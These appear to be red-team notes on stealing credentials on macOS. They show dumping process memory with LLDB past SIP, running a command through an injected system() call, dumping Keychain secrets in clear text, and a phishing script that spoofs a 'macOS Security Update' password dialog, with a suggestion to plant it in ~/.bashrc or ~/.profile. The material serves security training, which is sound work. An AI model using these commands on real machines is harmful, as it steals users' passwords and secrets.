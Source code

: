 # MacOS
---
# Navigation
1. **[Process memory](#Process%20memory)**
2. **[MacOS keychain](#MacOS%20keychain)**
3. **[Phishing and credential dialog spoofing](#Phishing%20and%20credential%20dialog%20spoofing)**
---
# Process memory
Apple made it more difficult to debug or dump process memory, even as root. Apple introduced a feature called **`System Integrity Protection (SIP)`** that limits what even the root user can do to the operating system.
```bash
# Check if SIP is enabled
csrutil status
```
If SIP is enabled, you cannot debug or inspect
these processes easily, even when running as root.
> **Important Note:**
>  SIP only protects certain folders and binaries (by default no third-party software), and ones that have proper signatures.
>  You can find protected files in: `/System/Library/Sandbox/rootless.conf`
>  or by executing the following command:
>  `ls -lhaO /Applications/ | grep -v restricted`

But the good news is that even if SIP is enabled, you can still debug certain processes using tools such as **`Low-Level Debugger (LLDB)`**. 
After finding a running process not covered by SIP, attach the LLDB debugger to it.
```bash
lldp -p <pid>
# Attach process
(lldp) process attach --pid <pid>
# Dump process memory
(lldp) process save-core
```
> You can inject code into memory:
> `(lldb) p (void) system("whoami &> /tmp/log.txt")`

![[Linux#2- Decrypting TLS traffic using TLS key logging Not working on latest firefox and chrome]]

---
# MacOS keychain
Apple introduced a consistent requirement for users to enter their password interactively whenever the Keychain is accessed to decrypt secrets, which makes it more difficult for malware to gain access. The tool to interact with Keychains is called  **`security`**.
Depending on the **macOS version** of the host, the following commands might allow you to get access to encrypted credentials. The  **`-d`**  option shows the **clear text** credentials:

```bash
security dump-keychain -d
```
There are various options to search and interact with Keychains. To find the specific stored password of an email account, we can use the following command:
```bash
security find-internet-password -a "someaccount@gmail.com" -w
```
The good thing (bad for the red teamer) about the Keychain is that it requires the user's password to access and open:

![[keychainpopup.png]]

If the Keychain is locked, it can be unlocked with this command:
```bash
security unlock-keychain
```
This will prompt for the user's password to unlock the Keychain (if it is locked):

![[keychainpopup2.png]]

---
# Phishing and credential dialog spoofing
## 1- Spoofing a credential prompt using osascript
```bash
osascript -e 'display notification "Hello World!"'
```

![[osascript.png]]

- Create a password dialog
```bash
PWD_SPOOF=$(osascript -e 'display dialog "To perform a
security update macOS needs your password." with title "macOS
Security Update" default answer "" with icon stop with hidden
answer')

echo $PWD_SPOOF
```

![[osascriptPWD.png]]

> **Note:**
>  One of the ways to deploy this is by putting it in ~/.profile or ~/.bashrc or by sending it in a file.


